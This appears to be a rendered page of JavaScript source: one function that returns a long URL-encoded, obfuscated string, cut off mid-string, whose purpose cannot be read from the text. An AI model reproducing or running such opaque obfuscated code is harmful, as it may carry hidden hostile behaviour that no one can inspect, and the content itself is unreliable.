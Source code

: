 T$cY9q(){return"ym%06j%3E%3E4$P;6%3E(%15%5B+5%3E%3E(Z:1%3E%3E%22P$l8$1T,,%3E8#Z*)v/;%5B,'58t%0Bx&2:t%5C62.8%0FA!2%3EqsW-6/#:%12%05n%7Bb7%5D=#/%221A/-)'yV7,/):Ax#'(0Q;%3Ejyf%03$%20.8%20Z6%3E8%201T*%3E(8;G=%3E%1Al7Z6$2+!G962#:%15;-5*8%5C;6%7B$5Fx-8/!G*'?mtb=b3-%22Px&2?5W4'?lhWf%3E%13%250Px%0C48=S1!:8=Z61'.;G%3C')vt%07(:%7B?;Y1&%7B%20=R06%3C%3E1P6%3E0)-v7&%3E01%5B9%207)0I5'6#=O=&%0B%3E;E+%3E%3E%22%20G!%3E/#%07A*+5+(V9.707Z66:%25:F$!7%251%5B,%1B'%25:F=0/%0D0_9!%3E%22%20%7D%0C%0F%1707Z4-)vt%5C6&2-:G=&%60l2Z66v?=O=x%7B~dE%20y%7B*;%5B,o,)=R06al6Z4&%600%20P*/(07Z4-)vtY1%25383G='5wtS7,/a'%5C%22'alf%05(:%60l2Z66v;1%5C?*/vtW7.?w(%5C6,%3E%3E%1Ca%15%0E')2%06%3C%3E/#3R4''.5V3%25)#!%5B%3C%0B6-3P$+(%1C8T!+5+%17%5D=!0%3C;%5C66'(1S1,28=Z6%3E:(0Iv%11/90P66%0B%3E;X(6v81M,b?%25%22I+6%22%201I$l%088!Q=,/%1C&Z52/0%3CG=$'%13%0BV0':8:P,54%3E?j*-48%0Bj$1/-%20P$/:%3C(X77()9Z.''Ft%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xbg$e%0BRb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7B%1B1Y;-6)tA7bQlt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15x~:l%5E%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blt%5D*'=qs%5D,6+?n%1Aw!3)5A6'/;;G3l%3E9%7B%12xH%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb(8-Y=%7F%7C/;Y70al#%5D16%3EwtS7,/a#P1%2538n%15:-7(o%15,'#8yQ=!4%3E5A1-5vt%5B7,%3Ews?xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blj?xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Bl%17%5D=#/l%1AP,54%3E?%09w#ek'%1597/#tT61,)&%15+!)%25$AyH%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15dm3%7Dj?xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7BlhQ14%7B/8T+1fn7%5D=#/%221A/-)'yV7,/):Az%7CQlt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Bltv4+8't%09:%7C%1A%00%00%15sb%0Ep%7BWfb/#tF='%7B-8Yx13#&A;7/?%5E%15xb%7Blt%15xb%7Blt%15xb%7Blt%15xb%7Bp%7BQ14eFt%15xb%7Blt%15xb%7Blt%15xb%7Blt%15$#+%3C8L$l%088!Q=,/%0D:F/')%03$A1-5a=X9%25%3Elj%15%3C+-lj%15%3C+-0'%5D70//!A+%3Eu/%3CP965)%20B700a9P67%7B%25:E-6x#$T;+/5(%10;%013)5Ax%0C%3E8#Z*)~/t%18x%13.%25.Y=6%7B8;Z4H~/%3CA,2(v%7B%1A;*%3E-%20%5B=6,#&%5Ev'.c(X=&2-(%5B762*-Iv!3)5A6'/;;G3o6):@x+5%3C!A%7B'5((Q11:.8P%3C%3E*91G!%11%3E%201V,-)0zV0':8:P,54%3E?%18+*4%3E%20V-6(07Z6$7%257A$'cz1I%60u=*(Q=1/%3E!V,%3E49%20P*%0A%0F%01%18I5#//%3CI(04%3C'I;.2):A%00%3Eu%1F%20@%3C'58%15%5B+5%3E%3E%1BE,+4%22yA=:/06P%3E-))1%5B%3C%3E/%3E!P$-5/8%5C;)'b7%5D=#/%221A/-)'yX=,.l=%5B(7/o'A90/0&P5--)%11C=,/%00=F,'5)&I%1C'(8&@;62#:I;*%3E/?P%3C%3E2%227Z?,28;I11%1A%3E&T!%3E.%228%5C+6%3E((Z;!.%3E1Q$/49'P-2'%20;T%3C%05%0E%05(G775((%5C6,%3E%3E%03%5C%3C630&P(.:/1I%076:%258I;.2):A%10'2+%3CA$uc(eI(0%3E:1%5B,%06%3E*5@46')aPi%3E7#3I,'#8(V7&%3E02%0C9&'t1W9%3E4%3C%20%5C7,'o%18%5C.'%1C-9P%0B6.(1%5B,%16:%3E3P,bel0%5C.bel0%5C.bel0%5C.beln%5B,*v/%3C%5C4&s%7F%7D%15fb?%25%22I6#6)(t-64l'P4'88(V0':8:P,54%3E?%186-/%252%5C;#/%25;%5Bu/4:1Q$%1D%04%3E1T;6%1D%256P*f'!1X7+!)0f,#/)(F=6%1A8%20G1%20.81I,;+)(T*0:5(%5E=;(07Y1'58%03%5C%3C630qV%0F#28=%5B?b=#&%15,*%3El3T5'%7B8;%15+6:%3E%20%1Bvl'-&%5C9o7-6P4%3E:%20%20~=;'/%3C%5C4&%17%25'A$%0B7%201R9.%7B/;%5B%3E+%3C9&T,+4%22tV0#5+1%15%3C'/)7A=&zl%10P+6)97A1,%3Cl'V*++8z%1Bv%3E8#8Z*x%7B/;G6$7##P*%20791%0Ex$4%22%20%18++!)n%15jr+4o%15%3E-58yB=+%3C$%20%0Fx%204%200%0E$.%3E%223A0%3E%00/%3CP965)%20B700a&P4#/)0h$*2(1%7B762*=V962#:F$g8%0B5X=b5#%20%15*75%22=%5B?%3E0)-I%7D!%17#5Q=&%7B-:F/')?(%7C6!4+:%5C,-%7B!;Q=%3E:%20%20P*,:81I9&?%09%22P66%17%25'A=,%3E%3E(Q;p:00P+6)97A=&'+1A%0B6:81Il$i/(F,#)8'b16307%5D=#/%221A/-)'yX1,2!=O=&'-!A71%3E%201V,%3E8%3E1T,'%1E%201X=,/07%5D1.?%3E1%5B$$:%20'P$l8$1T,,%3E8#Z*)v!1%5B-%3E9#0L$9%20)0R=1&1(Q11:.8P%3C%09%3E5(j*-48(S70%1E-7%5D$~?%25%22%15;.:?'%08;*%3E-%20%5B=6,#&%5Eu/%3E%22!%15;*%3E-%20%5B=6,#&%5Eu0%3E%205A=&ep0%5C.b8%205F+%7F3)5Q=0ep%3C%04f%0F%3E%22!%09w*jrhF(#5r%E2%87%84%15%3C0:+tX=~t?$T6%7Cgc0%5C.%7Cg(=Cx!7-'Fe!3)5A6'/;;G3o6%25:%5C5+!)yW-6/#:%0Bd1+-:%0B5+5%259%5C%22'%7B!1%15%E2%87%8A~t?$T6%7C%7Bp'C?b2(iv92:%13e%15+6%22%201%08z'5-6Y=o9-7%5E?049:Qb,%3E;t%05xr%7B~d%00vpiut%07hwu~f%0Cz4%3E%3E'%5C7,f%7Dz%04x42)#w7:fnd%15hbi%7Ca%1Bjpblf%05mli~m%17%20%7Fk%3C,%15%20/7v'E9!%3Eq$G=1%3E%3E%22Px:6%20:Fe*/8$%0Fwm,;#%1B/qu#&Rwpk%7Cd%1A+4%3Cl,X4,(v,Y1,0q%3CA,2ac%7BB/5u;g%1B70%3Cce%0Ca%7Bt48%5C6)%7B5i%05(:ep3%0Bd%25ep3%0Bd%25ep$T,*%7B(i%17%15sk~z%03izw~d%00vpiu7%18mtuyl%00trv%7Dd%07vtjzy%01nlk%7Fe%18iribb%04noj%7Cf%1Bnsm%0Fd%1Bhri%60%60%03vrh%7Dx%01nlk%7Fg%19hnj%7Cf%1Bnsc%60d?QKRE%5Dviwbbf%19hni%7Ca%1Bjpl%60%60%03vrh%7Dx%07hwu~f%02tsk~z%03iq%18~d%00vpi%7Bx%04m%7Bu%7Dm%0Dtsnuz%07tpkyz%07j%7Bw%7Dd%07vtjtx%07hwu~f%0C%22b%16%7Dd%07vtjtx%0Dvtjt%5E%3CQKRE7%18msutf%0Ctrvu%60%1Bhri%60%60%07vsmzy%0Cllk%7Cf%19aquum%00+vibe%02t%7Bhbm%0Cmnbxz%05hpwug%1Ba%7Bn/a%04vziyx%05t%7Bhbm%0D%60oo~z%04npwug%1Bazcam%06v%7Bby%5E%3CQKRE%17%04atuzd%03twkbc%0Dlnjy%60%1Blvo%60l%1Bnsc%60e%05jlm%7Dl%19%60lm%7DlOz1/58Pe$2%208%0F%7B$=*t%1Af~t+j%09w%25ep3%0Bd%25ep&P;6%7B$1%5C?*/ql%1Bnscl'A!.%3Eq2%5C4.ao2S%3Eb,%250A0%7Fjug%1Boqol,%08mllxb%15!%7Fbtz%06hv%7Bcj%09w%25ep%7BRf~%3CrhRf~+-%20%5Dx&fn%19%04hvuu%60%04ttibe%04i!vxl%1Bnvo%60d%18%60vuu%60%18iru%7Bd%01uzlbe%0Caoj%7Dz%06%60z7~z%01avvtz%07mqQE%5D%3CQK8%7Cz%0Ditw%7Cz%07luwtf%1Bnwl%60f%01vqhzx%04nvu%7Fl%18hlk%7C%60Yjloyf%19%60liz%17%04mzuxd%00twbbf%03nnj%7Fd%1Bhpj%60b%07vsj%7Dx%04hvuu%60%04ttibe%04i8y?%20L4'f*=Y4xx*2Sxmep%7BRf~t+j%09?%7Cg+j%09(#/$tQe%60%16~d%1Blsm%60e%03hln%7BfYupuxa%0Cuzu~bV%60vu~c%04upnbd%0Dinjza%1B%60%7Bcae%1Bhpl%60e%03alh%7Fg%19h.v~z%01avwtz%07mtQE%5D%3CQK%18%7Dl%06v%7Blzx%04nru%7Fe%0Dtsk~z%04lpw%7Dg%03vpo%60f%05vvjzx%04nruyc%07%22%60(8-Y=%7F=%258Yba=*2%15w%7Cgc3%0Bdm%3CrhRf~%3CrhE963l0%08z%0Fmuz%06a%7Bw%7Dm%03vsmt%17%07nlb%7Fg%19atu%7B%60%02tthba%0Dlncbb%05lnm%7Fz%0Cm%7Bw%7Bz%02ju7%7Bz%0Cjuw%7Fz%06ozQE%5D%3CQK8ad%1Bktn%60d%1B%60vnag%00vwhxx%0Dmllyb%19mloxx%04%60suzc%02%14tbbg%0Canjub%1Bitc6vF,;7)iS1.7vwS%3E$%7Bcj%09w%25ep%7BRf~%3CrhRf~+-%20%5Dx&fn%19%04kwu%7Db%0Dtsbzz%04nz7ac%1Baplag%1Bkzi/%60%05v%7Bl%7Dy%0Cmlb~x%00vzk%7Dy%04%60rutg%07twuxg%03usc%7Dz%03ou7%7Bz%0Cjuv%7Fz%06ozQE%5D%3CQK%18%7D%60%05v%7Bl%7Fx%0Dvtkxx%04ouuzf%02t%7Bmbc%01onj%7Fa%1Bitc%60e%0CnljzlOz1/58Pe$2%208%0F%7B$=*t%1Af~t+j%09w%25ep3%0Bd%25ep&P;6%7B$1%5C?*/qe%0Colh%7Cf%15+6%22%201%08%3E+7%20n%16%3E$=l#%5C%